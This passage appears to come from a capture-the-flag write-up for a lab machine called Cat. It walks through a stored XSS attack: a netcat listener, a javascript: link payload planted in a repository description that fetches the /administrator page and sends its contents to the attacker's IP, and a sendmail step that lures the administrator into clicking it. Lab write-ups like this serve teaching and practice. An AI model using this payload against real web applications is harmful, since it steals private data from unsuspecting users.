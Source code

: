 Now, let's set up a listener on port `80` using `netcat` to receive requests triggered by the XSS.

```
nc -lnvp 80
```

We then send a payload that, when clicked, will fetch the `/administrator` page's content and send it to our machine. This way, we can view the `Administrator` user's repositories (if they click the description).

The payload to enter in the description field is:

```html
<a href="javascript:fetch('http://localhost:3000/administrator').then(res => res.text().then(text => fetch('http://10.10.14.191/?body=' + encodeURIComponent(text))))">XSS test</a>
```

We create the repository.

![repo](../../img/Cat/repo.png)

And send the link via email to the administrator:

```
echo "http://localhost:3000/axel/xss" | sendmail administrator@cat.htb

/home/axel/dead.letter... Saved message in /home/axel/dead.letter
```
